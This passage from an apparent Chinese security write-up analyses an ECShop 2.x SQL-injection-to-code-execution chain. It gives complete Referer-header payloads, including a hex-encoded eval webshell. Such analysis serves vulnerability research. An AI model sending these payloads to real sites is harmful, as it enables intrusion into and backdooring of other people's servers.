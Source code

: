如果传入的参数没有`.`，就可以构造出`$this->_var['$val']`.这样闭合方括号，构造`abc'];echo phpinfo()//`传入到`$this->_eval()`中时就变成了`<?php echo $this->_val['abc'];echo phpinfo()//'];?>`。再回溯上面代码的过滤，构建传入的`$position_style`的`payload`为

	{$abc'];echo phpinfo();//}

#### 接着整理我们现在掌握的所有信息： ####

1.为了能控制sql注入返回的信息我们需要使用`union select`进行联合查询返回我们需要的东西，但是注入点后面有`order by`和`limit`无法直接使用`union select`，`sql`语句如下

![web]({{ '/images/201809/ecshop2.x_2_6.png' | prepend: site.baseurl }})

这里我们使用`$arr['id']`和`$arr['num']`来构造出`/**/`这样可以注释掉`order by rnd limit`,如传入`id`为`'/*`,`num`开头为`*/ union select...`拼接后的语句为

	...and a.position_id = ''/*'ORDER BY rnd LIMIT */ union select...

完美绕过

2.我们还需要构造绕过以下限制

<pre>if ($row['position_id'] != $arr['id']) // 这里需要配合sql注入绕过这个检查
{
	continue;
}
$position_style = $row['position_style'];</pre>

由于前面`$arr['id']`已经设置为`'/*`，这里我们需要将第二回显位的`position_id`也需要设置为相同的值，这里可以使用十六进制`0x272f2a`.

3.为我们前面刚刚通过`make_var`函数构造的`payload`为`{$abc'];echo phpinfo();//}`,该值对应于`$row['position_style']`为`sql`注入回显的第9位,其对应的十六进制值为`0x7b24616263275d3b6563686f20706870696e666f28293b2f2f7d`，这里有些版本的`fetch_str`函数的第一个正则会过滤`phpinfo()`可以通过注释符进行绕过`phpinfo/**/()`。

传入的`num`的payload为：

	*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f28293b2f2f7d,10-- -

传入的`id`的payload为：`./*`

整合最终的`payload`为

	Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:100:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f28293b2f2f7d,10-- -";s:2:"id";s:3:"'/*";}554fcae493e564ee0dc75bdf2ebf94ca

ps：注意序列化对象的长度的值及时更新。这里后面又添加了一个`hash`，在`display`函数中可以准确定位出我们的`payload`,否则会内容解析失败

效果图：

![web]({{ '/images/201809/ecshop2.x_2_7.png' | prepend: site.baseurl }})

还可以构造出无`webshell`文件的`payload`:

	554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:2:"id";s:3:"'/*";s:3:"num";S:216:"*/UNION select 1,0x272f2a,3,4,5,6,7,8,0x7b2461275d3b617373657274286261736536345f6465636f64652827514556575155776f596d467a5a5459305832526c5932396b5a53676b58314250553152624a303576654364644b536b372729293b24615b27317d,10#";}554fcae493e564ee0dc75bdf2ebf94ca
